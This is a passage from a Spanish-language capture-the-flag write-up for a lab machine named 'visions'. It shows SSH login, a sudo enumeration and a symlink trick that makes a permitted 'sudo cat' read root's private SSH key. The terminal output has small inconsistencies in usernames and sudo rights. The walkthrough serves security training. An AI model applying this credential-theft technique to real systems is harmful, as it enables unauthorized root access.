 Ahora que tenemos la contraseña, ingresamos nuevamente por SHH:

```sh
ssh -i credenciales isabella@192.168.56.23 
sophia@192.168.56.23's password: 
Enter passphrase for key 'credenciales': 
Linux visions 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
isabella@visions:~$ id
uid=1003(isabella) gid=1003(isabella) groups=1003(isabella)
```

Luego de esto buscamos permisos de ejecución:

```sh
isabella@visions:/$ sudo -l
Matching Defaults entries for isabella on visions:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User isabella may run the following commands on visions:
    (emma) NOPASSWD: /usr/bin/man
```

Con esto nos percatamos de que no hay permiso sudo para ejecutar `/usr/bin/man`. Sin embargo, debemos de recordar que quien sí tiene permisos para ejecutar sudo es Sophia:

```
La usuaria sophia puede ejecutar los siguientes comandos en visions:
​ (ALL : ALL) SIN CONTRASEÑA: /usr/bin/cat /home/isabella/.invisible
```

Por lo que tenemos que hacer es enlazar algún archivo root a .invisible para podedr leerlo con `cat`, ese archivo es `/root/id_rsa`:

```sh
isabella@visions:~$ rm -rf ./.invisible
isabella@visions:~$ ln -s /root/.ssh/id_rsa ./.invisible

# Resultado
isabella@visions:~$ ls -la
total 28
drwxr-xr-x 3 isabella isabella 4096 Sep 26 02:24 .
drwxr-xr-x 6 root     root     4096 Apr 19  2021 ..
-rw------- 1 isabella isabella  133 Sep 26 01:38 .bash_history
-rw-r--r-- 1 isabella isabella  220 Apr 19  2021 .bash_logout
-rw-r--r-- 1 isabella isabella 3526 Apr 19  2021 .bashrc
lrwxrwxrwx 1 isabella isabella   17 Sep 26 02:24 .invisible -> /root/.ssh/id_rsa
-rw-r--r-- 1 isabella isabella  807 Apr 19  2021 .profile
drwx------ 2 isabella isabella 4096 Apr 19  2021 .ssh
```
